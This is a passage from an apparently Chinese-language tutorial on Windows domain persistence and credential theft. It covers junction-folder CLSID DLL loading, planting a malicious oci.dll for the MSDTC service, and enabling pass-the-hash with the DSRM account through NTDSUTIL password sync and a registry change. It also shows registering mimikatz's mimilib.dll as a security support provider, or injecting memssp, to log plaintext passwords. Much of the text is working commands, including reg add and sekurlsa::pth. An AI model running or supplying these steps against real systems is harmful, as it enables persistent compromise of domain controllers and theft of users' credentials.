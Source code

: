 ### <a class="reference-link" name="6.junction%20folder"></a>6.junction folder

文件夹命名为：name.`{`clsid`}`。当浏览时，就会执行对应的clsid的dll。

### <a class="reference-link" name="7.msdtc"></a>7.msdtc

Distributed Transaction Coordinator，微软分布式传输协调程序，Windows系统默认启动该服务。计算机加入域，MSDTC服务启动时，会搜索注册表HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\MSDTC\MTxOCI，并加载3个DLL：oci.dll、SQLLib80.dll、xa80.dll。但是默认oci.dll是没有的，可以自己在system32下放置一个恶意oci.dll，实现劫持。

**除了上面说的一些，还有其他许多方法可以实现dll劫持，继续探索。DLL劫持识别开源工具：Rattler。**

### <a class="reference-link" name="8.DSRM"></a>8.DSRM

每一个域控都有一个本地管理员账户（并非域的管理员帐户），也就是所谓的目录服务还原模式（DSRM）账户。DSRM的密码是在DC安装时就要设置，很少会被重置。本地用户的hash存在sam文件，而域内用户hash存在ntds.dit。不使用域控的administrator进行pth，使用dsrm用户pth。但是dsrm默认不能pth，但是改了注册表就可以了。默认情况下域控的administrator密码与dsrm是不同的，我们首先同步密码，之后修改注册表。

```
1.同步密码：
NTDSUTIL 
SET DSRM PASSWORD 
SYNC FROM DOMAIN ACCOUNT &lt;your user like krbtgt&gt; 
Q 
Q
PS：Windows Server 2008 需要安装KB961320补丁才支持DSRM密码同步，而Windows Server 2003不支持DSRM密码同步
2.使用mimikatz查看密码是否同步
3.修改注册表允许DSRM账户远程访问：
HKLM\System\CurrentControlSet\Control\Lsa\DSRMAdminLogonBehavior值设置为为2（代表无论哪一种情况，你都可以使用DSRM管理员帐户登录。）   //默认不存在，手动添加
4.使用hash远程登录即可pth：
privilege::debug
sekurlsa::pth /domain:w7 /user:Administrator /ntlm:xxxxxxxx
```

### <a class="reference-link" name="9.SSP"></a>9.SSP

Security Support Provider（安全支持提供程序），是Windows API，用于扩展Windows身份验证机制。lsass进程正在Windows启动期间加载其提供的dll，我们可以通过修改或者替换dll实现与lsass进程进行交互并记录该进程中存储的所有密码信息。

```
注册SSP DLL方式：
mimikatz提供mimilib.dll，并放到与lsass进程（System32）相同的位置C:\Windows\System32\
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ   //修改注册表项以包括新的安全支持提供程序mimilib
注册表已被篡改并且DLL存储在系统中，因此在重新启动后继续存在。当域用户再次通过系统进行身份验证时，将创建一个C:\Windows\System32\kiwissp.log文件，该文件将记录帐户的凭据。

内存注入方式：
（不需将mimilib.dll放入磁盘或修改注册表，重启后失效）
privilege::debug
misc::memssp
在用户再次通过系统认证时，会创建C:\Windows\System32\mimilsa.log文件，包含用户纯文本密码。

PS：除了使用mimikatz以外，也可以使用后渗透神器Empire或者powersploit来实现这两种方式。

```
